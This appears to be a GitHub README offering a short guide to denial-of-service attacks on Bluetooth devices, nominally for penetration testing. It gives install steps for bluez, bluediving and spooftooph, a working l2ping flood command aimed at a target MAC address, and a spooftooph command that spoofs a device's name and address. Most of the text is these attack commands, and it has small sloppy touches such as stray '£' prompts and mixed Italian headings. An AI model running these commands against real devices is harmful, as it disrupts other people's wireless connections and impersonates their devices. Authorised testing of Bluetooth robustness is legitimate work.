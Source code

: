 # Bluetooth Denial-of-Service (DoS) attack

!(https://image.png)

Script for conducting DOS-attacks on Bluetooth devices for pentest purposes.

##   Install the tools
For a DoS attack over Bluetooth, you can use tools like:

l2ping (already included in bluez)

spooftooph (for spoofing and spam)

bluediving (for specific attacks like L2CAP overflow)

## 1.comands 
```shell
$ sudo apt update
£ sudo apt install bluez blueranger
```

## 2. Activate and check the Bluetooth adapter

```shell
$ sudo systemctl start bluetooth
£ sudo hciconfig hci0 up
£ hciconfig hci0
```

## 3.Bluetooth DoS con l2ping (inondazione di ping)

```shell
$ sudo hcitool scan
```
Flood (continuous ping):
```shell
$ sudo l2ping -i hci0 -s 600 -f XX:XX:XX:XX:XX:XX
```

## More advanced attacks (with Bluediving)

```shell
$ sudo apt install bluediving
```

## Spoofing identity (with spooftooph)

```shell
$ sudo apt install spooftooph
```
for example
```shell
$ sudo spooftooph -i hci0 -n "Insert your device" -a XX:XX:XX:XX:XX:XX
```
